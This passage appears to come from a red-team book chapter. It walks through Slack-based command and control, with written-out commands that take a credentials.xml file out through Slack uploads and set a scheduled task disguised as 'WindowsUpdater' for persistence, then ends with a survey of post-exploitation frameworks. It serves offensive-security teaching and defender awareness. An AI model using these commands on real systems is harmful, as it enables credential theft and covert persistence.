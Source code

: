 4. **Data Exfiltration via Slack**:
   ```
   # In Slack channel
   !shell dir "C:\Users\Developer\source\repos\ProjectX" /s
   
   # Located sensitive source code
   !download "C:\Users\Developer\source\repos\ProjectX\credentials.xml"
   
   # Files were automatically uploaded to Slack as attachments
   # Downloaded from Slack directly, leaving no obvious exfiltration signatures
   ```

5. **Persistence Through Legitimate Channels**:
   ```
   # Established persistence that leveraged approved applications
   !shell powershell -enc BASE64_ENCODED_PERSISTENCE_SCRIPT
   
   # Created scheduled task to periodically reconnect to Slack
   !shell schtasks /create /tn "WindowsUpdater" /tr "C:\Program Files\Updater.exe" /sc daily /st 09:00
   ```

This example demonstrates how attackers can leverage legitimate communication platforms for command and control, making detection and attribution significantly more difficult. For the defenders, it highlights the need for monitoring even approved applications for suspicious usage patterns.

## Conclusion

Beyond the well-known Metasploit Framework, the specialized exploitation tools covered in this chapter provide red teams with a diverse arsenal for targeting specific environments and evading common defenses. From router exploitation with Routersploit to post-exploitation frameworks like Empire, Koadic, and Merlin, these tools enable red teams to demonstrate the full impact of security vulnerabilities.

Modern red team operations require adaptability and stealth, which these tools provide through various techniques:

1. **Targeted Exploitation**: Routersploit focuses on network infrastructure, attacking devices often overlooked in security assessments.

2. **Evasion Techniques**: Empire, Koadic, and Merlin offer different approaches to bypass endpoint protection, from PowerShell without PowerShell to COM objects and HTTP/2.

3. **Team Collaboration**: Armitage enhances Metasploit with visualization and team features, enabling coordinated attacks across complex environments.

4. **Living Off the Land**: Many of these frameworks leverage legitimate Windows components, making detection more difficult and demonstrating how attackers can operate with minimal custom tools.

5. **Alternative C2 Channels**: Tools like SlackParse showcase how attackers can leverage allowed corporate communication platforms for command and control.

By mastering these exploitation frameworks, red team operators can more effectively simulate sophisticated threat actors, providing organizations with a realistic assessment of their security posture against current attack techniques.

In the next chapter, we'll explore web application exploitation tools that focus specifically on identifying and exploiting vulnerabilities in web applications, a common entry point for attackers targeting modern organizations.
